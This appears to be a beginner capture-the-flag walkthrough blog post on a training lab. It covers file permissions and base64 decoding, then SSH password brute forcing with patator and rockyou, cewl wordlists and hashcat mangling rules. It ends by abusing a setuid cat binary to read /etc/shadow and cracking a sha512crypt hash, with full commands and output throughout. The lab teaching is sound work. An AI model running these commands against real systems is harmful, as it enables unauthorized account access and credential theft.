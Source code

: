 ```yaml
---
layout: post
title:  "Part 6 - The Hax that Rocks the Cradle Brute Force"
date:   2022-08-26 17:19:23 -0500
categories: thehaxthatrocksthecradle
---
```


<br>
# Level 35 - This One's Not About Brute Force!
Ok, so the rest of these levels will involve brute forcing, but this one doesn't. I just didn't want to have a whole separate page for this one. \\(o_O)/
<br>Sekhmet, in all her anger about Mafdet, also found some other account info!

<details>
<summary>Level 35 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Find out how to make a file executable in Linux.
</span>
</details>
<br>
<details>
<summary>Level 35 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Linux doesn't let you run/execute a program unless the file specifically has the permissions set up to do so. Check the permissions with <code>ls -la</code>:
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rw-rw-r-- 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
The file permissions are all those letters/symbols at the beginning of the second line, to the left of the number 1. But how do you read all that mess? To fully understand it would require a long explanation, so let's just go with the basics for now and explain it all with some handy color-coding.<br>
<br>
<code>
<span style="color:purple" >-</span>
<span style="color:DarkOrange" >rw-</span>
<span style="color:DarkSlateBlue" >rw-</span>
<span style="color:DeepPink" >r--</span>
 1 
 <span style="color:DarkOrange" >sekhmet </span>
<span style="color:DarkSlateBlue" > sekhmet </span>
 16744 Apr  2  2021 runthisthing</code><br>
<br>
<span style="color:purple" ><code>-</code> - This will typically just be a <code>-</code> if it's a file or a letter <code>d</code> if it's a directory. Ours is a file, we don't need anything else from it here.</span><br>
<span style="color:DarkOrange" ><code>rw-</code> - This indicates that the owner of the file can read it and write to it. A letter means the permission is present, a dash means that permission is not present. The owner in this case is our buddy Sekhmet (the first <code>sekhmet</code> is the owner)</span> <br>
<span style="color:DarkSlateBlue" ><code>rw-</code> - Same thing here, but this is for the owning group. The second <code>sekhmet</code> is the owning group. We can see that the sekhmet group can also read and write to the file</span><br>
<span style="color:DeepPink" ><code>r--</code> - These are the permissions for everyone else. Everyone can read the file, but they can't write to it.</span><br>
<br>
So now what? Well, we want to add <b>execution</b> permissions to the file, which would be represented by an <code>x</code> instead of the <code>-</code> in the third column for each permission set. The easiest way to do that would be:<br>
<code>chmod +x runthisthing</code><br>
<br>
This adds the <code>x</code> to all the permissions for this file. Note that this means everyone can execute this file now! You can get more granular, but we're just going for quick and easy right now.<br>
<br>
Check the permissions after running that and they should be:<br>
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rwxrwxr-x 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
Ok, so now you can allegedly execute this file. Right. Let's do that now.<br>
How?<br>
<br>
To run an executable file in the directory you're currently in at the CLI:<br>
<pre>./runthisthing
                                                 >=>                    
                                                 >=>                    
  >==>    >=>   >=>   >==>       >==> >=>  >=> >=>>==> >=>  >=>  >===>  
>>   >=>    >> >=>  >>   >=>   >=>    >=>  >=>   >=>   >=>  >=> >=>     
>>===>>=>    >>     >>===>>=> >=>     >=>  >=>   >=>   >=>  >=>   >==>  
>>         >>  >=>  >>         >=>    >=>  >=>   >=>   >=>  >=>     >=> 
 >====>   >=>   >=>  >====>      >==>   >==>=>    >=>    >==>=> >=> >=> 
                                         
You have executed the program as required
Decode for the password:
ZXhlY3V0aXZlT3JkZXJz
</pre><br>
These people and their encoding!! (╯°□°）╯︵ ┻━┻)<br>
Decode as usual from base64:<br>
<pre>
└─$ hURL -b ZXhlY3V0aXZlT3JkZXJz           

Original string       :: ZXhlY3V0aXZlT3JkZXJz
base64 DEcoded string :: executiveOrders
</pre>

<i>There's a lot more to permissions that I didn't cover - you can certainly find more info online, such as here: <a href="https://linuxhandbook.com/linux-file-permissions/">https://linuxhandbook.com/linux-file-permissions/</a></i>
</span>
</details>
<br>
# Level 36 - This One is About Brute Force! What Does That Mean Anyway?
Let's get into some password attacks!
A short/quick definition of brute forcing an account would be going through a bunch of guesses for the password for the account. There are a few different types. 

A true brute force, or key space brute force is the most ... brutish of them all. For example - we did just that in the earlier examples. Our key space was just 26 letters at first (26 guesses), then 2 digit numbers (100 guesses), then 4 digit numbers. That last one took us up to 10,000 possible guesses (0000-9999). What if we add lowercase letters to that mix?
We'd be up to 1,679,616 guesses. You can see how this starts to get impractical pretty quickly. Enter the dictionary attack!

A dictionary attack uses a list of likely passwords. Where does that list come from? Could be any of a variety of places:
* a breach of a company's database
* a compilation of words from a website the victim frequents
* a list of commonly used passwords
* a list you sat there typing up by hand because ... you were working on your typing skills, maybe?

This type of attack relies on someone using something in your list as their password, so the art of getting a list together is another subject that could make for a book by itself. We will instead take advantage of someone else's work and use a pre-existing list.

<details>
<summary>Level 36 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Download the password list</li>
<li>Find a way to perform a brute force password attack against SSH - hint for the hint, look up how to do it with Patator. Hint for that - honestly, just check out patator's awesome help menu from the command line!</li>
<li>Perform the SSH password attack</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 36 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Download the password list</li>
<ul>
<li><code>wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-15.txt</code><br>
This is a cut down version of a very well known password list. This GitHub repository has a ton of lists for trying to discover/crack all sorts of stuff including usernames, passwords, directories, and more!</li>
</ul>
<li>Find a way to perform a password attack against SSH</li>
<ul>
<li>I'll be using Patator in this case, but there are other applications you could use instead.</li>
<li>If you checked out the tool's help (like I said you should!!) you might have seen something like:
<pre>
└─$ patator --help          
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: patator module --help

Available modules:
  + ftp_login     : Brute-force FTP
  + ssh_login     : Brute-force SSH
  + telnet_login  : Brute-force Telnet
... etc
</pre>
Then check out the module specific help:
<pre>
└─$ patator ssh_login --help
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: ssh_login <module-options ...> [global-options ...]

Examples:
  ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

Module options:
  host          : target host
  port          : target port [22]
  user          : usernames to test
  password      : passwords to test
  auth_type     : type of password authentication to use [password|keyboard-interactive|auto]
  keyfile       : file with RSA, DSA or ECDSA private key to test
  persistent    : use persistent connections [1|0] 
</pre>
From the example given and the option descriptions, we can start filling in our environment's info as seen in the next step.
</li>
</ul>
<li>Perform the SSH password attack</li>
<ul>
<li><pre>
└─$ patator ssh_login host=10.0.0.19 user=brutus password=FILE0 0=rockyou-15.txt
21:14:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7 at 2022-09-29 21:14 CDT
21:14:26 patator    INFO -                                                                              
21:14:26 patator    INFO - code  size    time | candidate                          |   num | mesg
21:14:26 patator    INFO - -----------------------------------------------------------------------------
21:14:29 patator    INFO - 1     22     3.506 | 123456                             |     1 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.497 | 12345                              |     2 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.506 | 123456789                          |     3 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.502 | iloveyou                           |     5 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.524 | password                           |     4 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.508 | princess                           |     6 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | 1234567                            |     7 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.505 | 12345678                           |     8 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | abc123                             |     9 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | nicole                             |    10 | Authentication failed.
21:14:33 patator    INFO - 1     22     3.496 | daniel                             |    11 | Authentication failed.
</pre>
</li>
<li>I left off the <code>-x ignore:mesg="Authentication failed."</code> in this example just so you could see the process as it tries guessing all the different passwords. You can add that to the end of the command to make the output cleaner. Note that it will look like it's not doing anything for a while if you do that.</li>
<li>...or leave it as is and just scroll through the output a bit to find ...<br>
<pre>
...
21:19:16 patator    INFO - 1     22     3.500 | jessie                             |   215 | Authentication failed.
21:19:16 patator    INFO - 0     30     0.111 | hellokitty                         |   216 | SSH-2.0-OpenSSH_8.9p1 Ubuntu-3
21:19:16 patator    INFO - 1     22     3.495 | jeremy                             |   207 | Authentication failed.
...
</pre>
</li>
<li>The successful login attempt will just show the SSH version on the server in this case.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 37 - Wordlists are Cool. Kool? Kewl?
Remember how we discussed the fact that wordlists could be pre-made or you could make one of your own?

<details>
<summary>Level 37 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Check the webpage in a browser if possible, just to see what you're working with</li>
<li>Check out <code>cewl</code> as Brutus suggested</li>
<li>Use <code>cewl</code> to generate a list of words 8 characters or longer from the target URL </li>
<li>Perform that SSH password attack like in the last level</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 37 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Check the webpage in a browser if possible, just to see what you're working with</li>
<ul>
<li>Just go to the URL in your browser: http://INSERTIPADDRESSHERE:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html</li>
</ul>
<li>Check out <code>cewl</code> online as Brutus suggested</li>
<ul>
<li>This will vary of course, I stumbled upon this guide <a href="https://www.geeksforgeeks.org/cewl-tool-creating-custom-wordlists-tool-in-kali-linux/">here.</a></li>
</ul>
<li>Use <code>cewl</code> to generate a list of words 8 characters or longer from the target URL:
<ul>
<li>
<pre>
└─$ cewl -m 8 http://TARGETIPADDRESS:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html | tee sombralist.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Overwatch
Warcraft
BATTLETAG
Resurrected
Hearthstone
...
</pre>
<br>
<code>-m 8</code> - tells <code>cewl</code> to only include words of a minimum 8 characters or more<br>
<code> | tee sombralist.txt </code> - outputs the list to a file, in this case sombralist.txt, but also lets us see it on screen to make sure it looks about right<br>
</li>
</ul>
</li>
<li>Perform that SSH password attack like in the last level</li>
<ul>
<li>Use <code>patator</code> to brute force the SSH server again, just swap out the username and the file name you're using. Refer to level 36's full answer for that command.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 38 - Mangling
If your wordlist has the password you needed, that's great! What if someone uses a standard word, but kinda changes it a little bit to be all sneaky about things?

For example, what if, instead of:

`password`

The user whose password we're trying to crack uses:

`p@$$w0rd`

Hmm ... see if Sombra has some ideas for you.

<details>
<summary>Level 38 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Use <code>cewl</code> to generate a list of words 12 characters or longer from the target URL </li>
<li>Have a look at hashcat mangling rule files</li>
<li>Mangle your newly created wordlist</li>
<li>Perform that SSH password attack like in the last level</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 38 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Use <code>cewl</code> to generate a list of words 12 characters or longer from the target URL </li>
<ul>
<li>
<pre>
└─$ cewl -m 12 http://TARGETIPADDRESS:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html | tee sombralist2.txt
</pre>
</li>
</ul>
<li>Have a look at hashcat mangling rule files</li>
<ul>
<li>
<pre>
└─$ ls -la /usr/share/hashcat/rules 
total 2588
...
-rw-r--r-- 1 root root    298 Dec 23  2021 leetspeak.rule
...
</pre>
That one looks like it might be good!
</li>
</ul>
<li>Mangle your newly created wordlist</li>
<ul>
<li><code>hashcat --stdout --rules-file /usr/share/hashcat/rules/leetspeak.rule sombralist2.txt > sombralist2_mangled.txt</code><br>
This command tells hashcat to use the leetspeak rule to "mangle" sombralist2.txt and output the results to sombralist2_mangled.txt (the original file remains intact). Have a look at the results to get an idea of what it did!<br>
For example, that last line, the word <code>Infiltration</code> was mangled to:
<pre>
Infiltr4tion  
Infiltr@tion  
Infiltration  
Infiltration  
Infiltration  
Infiltration  
Infiltration  
Inf1ltrat1on  
Inf!ltrat!on  
Infiltrati0n  
Infiltration  
Infiltration  
Infiltration  
Infil7ra7ion  
Infil+ra+ion  
Infiltration  
Inf1ltr@t10n
</pre>
</li>
</ul>
<li>Perform that SSH password attack like in the last level</li>
<ul>
<li>Use <code>patator</code> to brute force the SSH server again, just swap out the username and the file name you're using. Refer to level 36's full answer for that command.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 39 - Cracking Hashes and Taking Names
You're at the last challenge! This one may cover some new ground for you and take some time to get things figured out - that's ok!

<details>
<summary>Level 39 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Figure out which file contains password hashes in Linux and which part is the hash</li>
<li>Take a look at the <b>tools</b> directory and see if you spot anything different about the permissions of one file. If so, what does that mean?</li>
<li>Piece those two bits of info together and get the hash for <b>deanna</b></li>
<li>Download the password list sombra told you about</li>
<li>Use hashcat, the hash, and the password list to crack the hash</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 39 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Figure out which file contains password hashes in Linux and which part is the hash</li>
<ul>
<li>Some online searching should get you what you need here.<br>
Bing makes it (mostly) easy in this case:<br>
<image src="/images/shadowfile_bing.png"></image><br>
Note that the full file path is <code>/etc/shadow</code> - if you forget that first slash, you'll be looking for a folder called <code>etc</code> at your current location, which will likely not work, unless you happen to be at <code>/</code>.
</li>
<li>Ok, let's take a look at this file!<br>
<pre>
sombra2@thehaxthatrocksthecradle:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
</pre>
Hmm ... well, let's keep that file location handy and see if we can use that information later. You know ... by some odd coincidence.</li>
<li>How will you recognize the hash when you see it? You should be able to find that in some search results too, or something like the <a href="https://linux.die.net/man/5/shadow">man page for /etc/shadow</a>:<br>
<blockquote>
Each line of this file contains 9 fields, separated by colons (":"), in the following order:
**login name**
...
**encrypted password**
...
</blockquote>
Your hackery ears should perk up at the part that says <b>password</b>!! Ok, yes, it's encrypted. We'll get to how to handle that. In the meantime though, make a note that you're looking for the second field (as indicated by colons) on each line of that file. You know ... if you can ever open it.
</li>
</ul>
<li>Take a look at the <b>tools</b> directory and see if you spot anything different about the permissions of one file. If so, what does that mean?</li>
<ul>
<li>Let's take a look:<br>
<image src="/images/sombra2_tools.png"></image><br>
Do you see that red highlighting around the <code>cat</code> command? More importantly, do you see that the permissions for this one are:<br>
<code>-rwsr-xr-x</code><br>
instead of <br>
<code>-rwxr-xr-x</code><br>
<br>
What does that <b>s</b> mean?
</li>
<li>Search for something online, like <b>s in linux permissions</b> and you may come across something like <a href="https://unix.stackexchange.com/questions/118853/what-does-the-s-attribute-in-file-permissions-mean">this StackExchange answer:</a><br>
<blockquote>That is the "setuid" bit, which tells the OS to execute that program with the userid of its owner. This is typically used with files owned by root to allow normal users to execute them as root with no external tools (such as `sudo`).</blockquote>
<br>
And yes, I could point you to a more official source like the <a href="https://man7.org/linux/man-pages/man2/setuid.2.html">Linux man pages</a>, but honestly, I find that their explanation might be a little confusing for someone new to all of this:<br>
<blockquote>       **setuid**() sets the effective user ID of the calling process.  If
       the calling process is privileged (more precisely: if the process
       has the **CAP_SETUID** capability in its user namespace), the real
       UID and saved set-user-ID are also set.</blockquote>
<br>
<a href="https://en.wikipedia.org/wiki/Setuid#When_set_on_an_executable_file">Wikipedia</a>'s explanation is pretty understandable too:<br>
<blockquote>When the `setuid` or `setgid` attributes are set on an [executable](https://en.wikipedia.org/wiki/Executable "Executable") file, then any users able to execute the file will automatically execute the file with the privileges of the file's owner (commonly [root](https://en.wikipedia.org/wiki/Superuser "Superuser")) and/or the file's group, depending upon the flags set.</blockquote>
<br>
The reason I bring this up is that sometimes "official" sources are a little hard to understand and it might be worth shopping around online for an explanation to see who might explain it in a way that just clicks with you.
</li>
</ul>

<li>Piece those two bits of info together and get the hash for <b>deanna</b></li>
<ul>
<li>Ok, so now you know which file contains hashes, but you don't have permissions to access it.</li>
<li>You also have an executable file that gives you permissions higher than your own - specifically <b>root</b>! That file just so happens to show the contents of a file.</li>
<li>Put that together and you can use that specific binary/executable file to show the contents of the file that contains the hashes! Like so:<br>
<pre>
sombra2@thehaxthatrocksthecradle:~/tools$ ./cat /etc/shadow
... [snipped for length here] ...
deanna:$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.:19216:0:99999:7:::
</pre>
We got it! You will also see the hashes for all the other accounts on the system as well. For now, let's just go with the <b>deanna</b> line since at this point you should have the password for the other accounts anyway.<br>
Remember that the hash is just the second field in that line, so it's this part here:<br>
<code>
deanna:<span style="color:purple" >$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.</span>:19216:0:99999:7:::
</code><br>
So the hash is just:<br>
<code>$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.
</code><br>
Save that hash to a file on your system however you want in a place you can find it easily later.
</li>
</ul>

<li>Download the password list sombra told you about</li>
<ul>
<li>Remember your friend <code>wget</code>!<br>
<pre>wget 10.0.0.19:8000/sombra_super_password_list.txt
--2022-10-12 20:53:38--  http://10.0.0.19:8000/sombra_super_password_list.txt
Connecting to 10.0.0.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 478948 (468K) [text/plain]
Saving to: ‘sombra_super_password_list.txt’

sombra_super_password_list.txt                       100%[===================================================================================================================>] 467.72K  --.-KB/s    in 0.004s  

2022-10-12 20:53:38 (117 MB/s) - ‘sombra_super_password_list.txt’ saved [478948/478948]
</pre>
</li>
</ul>

<li>Use <code>hashcat</code>, the hash, and the password list to crack the hash</li>
<ul>
<li>Again, looking for usage examples online will be helpful here.<br>
<a href="https://linuxhint.com/hashcat-tutorial/">This site</a> has some good examples. Note that <code>hashcat</code> has so many options, not all of the examples will be useful for us here and now. This one matches what we'll be doing though:<br>
<code>hashcat -m 0 -a 0 hashlist wordlist</code><br>
<br>
A bit more explanation might help though:<br>
<ul>
<li>
<code>-m 0</code> - tells <code>hashcat</code> the type of hash we're cracking. NOTE!!!! It's NOT 0 in this case! We need to find our hash type either in the <code>hashcat</code> help or on the site <a href="https://hashcat.net/wiki/doku.php?id=example_hashes">here</a>. If you look at our hash, it starts with a <b>$6$</b>, so look for that character combo on the page and you should find that it's:<br>
<code>1800    |    sha512crypt $6$, SHA512 (Unix)</code><br>
</li>

<li>
<code>-a 0</code> - tells <code>hashcat</code> we're doing a <b>dictionary attack</b>, so all password attempts will come directly from the list, as opposed to <code>hashcat</code> mangling passwords like in our past usage.
</li>

<li>
<code>hashlist</code> - this will be replaced by the name of the file containing your hashes, or in our case, one hash.
</li>

<li>
<code>wordlist</code> - this will be replaced by the name of the file containing your passwords.
</li>

</ul>
</li>

<li>Given all the above, our final command would be something like:<br>
<code>hashcat -m 1800 -a 0 deannahash sombra_super_password_list.txt</code><br>
<code>hashcat</code> outputs a lot of info, but look for something like this:<br>
<pre>
$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.:<span style="color:purple" >knitpurl724</span>
                                                          
Session..........: hashcat
Status...........: Cracked
</pre>
(color coding done by me, not hashcat).
That line that shows the hash:somethingelse? That <b>somethingelse</b> is your cracked password!<br>
<br>

Did you get something like this when you tried to run <code>hashcat</code>?:<br>
<code><span style="color:red" >* Device #1: Not enough allocatable device memory for this attack.</span></code><br>
As of October 2022, the default amount of RAM that the Kali VMware image it set to use is 2GB, which <code>hashcat</code>, in true feline style, decides is just not good enough. If you can, turn that up to 4GB and <code>hashcat</code> should be ok with that.
</li>

</ul>
</ul>
</span>
</details>
<br>